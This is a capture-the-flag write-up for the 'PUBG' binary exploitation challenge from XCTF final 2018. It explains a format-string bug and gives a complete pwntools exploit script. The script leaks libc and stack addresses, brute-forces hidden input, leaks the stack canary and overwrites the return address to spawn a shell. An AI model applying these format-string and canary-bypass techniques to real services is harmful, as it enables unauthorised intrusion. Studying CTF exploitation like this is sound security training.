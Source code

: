 ```yaml
---
title: 'XCTF-final-2018:PU
G'
date: 2018-11-08 11:42:26
tags:
---
```

Interesting game
<!--more-->
# File
[PUBG][1]
# PUBG
* PICK A GUN first
* AND you have two choise : gang or gou
* gou :
    you may find AWM
* gang :
    if you dont have AWM you will die
* IF you win you can leak something and you can overflow to control the RIP
* so enjoy the game
# Entry point
*  you can leak libc by 
```python
  for ( j = 0; j <= 3; ++j )
  {
    if ( s[j] != buf[j] )
    {
      printf(s);#formatstr
      puts(" has no airdrop");
      return __readfsqword(0x28u) ^ v4;
    }
  }
```
* Luckily you can leak j .so you can burp the position of airdrop
* so you will get the AWM
* and use the only chance to leak  canary
* so go to control EIP

# EXP
```python
from pwn import *
def cmd(c):
	p.readuntil("> ")
	p.sendline(str(c))
def airdrop(c):
	cmd(2)
	p.readuntil("position:")
	p.send(c)

#context.log_level="debug"
p=process("./pubg")
p=remote("127.0.0.1",1025)
cmd(1)
cmd(1)
airdrop("%p%p%p%p\n")
p.readuntil("0x25")
base=int(p.readline(),16)-0x5cd700+0x7fd980588000-0x7fd98058d000
log.warning("Libc:%s",hex(base))
airdrop("%a%a%a%a%a")
p.readuntil("ap-10220x0.0")
stack=int("0x"+p.read(11)+"0",16)
log.info("stack:%s",hex(stack))


res=""
for x in range(3):
	for y in range(1,256):
		if (chr(y)!='n' and chr(y)!='$' and chr(y)!='*' and chr(y)!='|'):

			airdrop(res+"{}%p|%p\n".format(chr(y).ljust(3-x,'\x01')))
			p.readuntil("|")
			data=p.readline()
			if data=="(nil)\n":
				data=0
			else :
				data=int(data,16)
			if (data==x+1):
				res+=chr(y)
				break
			else:
				continue
airdrop(res)
cmd(1)
p.readuntil("chicken:\n")
canary_add=(0x7ffe2c5822c8-0x7ffe2c5823d0)+stack

p.sendline(str(canary_add+1))
sleep(0.1)
p.readuntil("The ")
data="\x00"+p.read(7)
canary=u64(data.ljust(8,'\x00'))
log.info("Cnary:%s",hex(canary))
p.readuntil("~\n")
off=0x20
one=base+0x45216
p.send("\x00"*off+p64(canary)*3+p64(one)+"\n")
p.interactive()
```

# review 
Is a interesting game
There are lots of little trick in this challenge.


[1]:https://github.com/n132/Watermalon/tree/master/XCTF_FINAL_2018/pubg
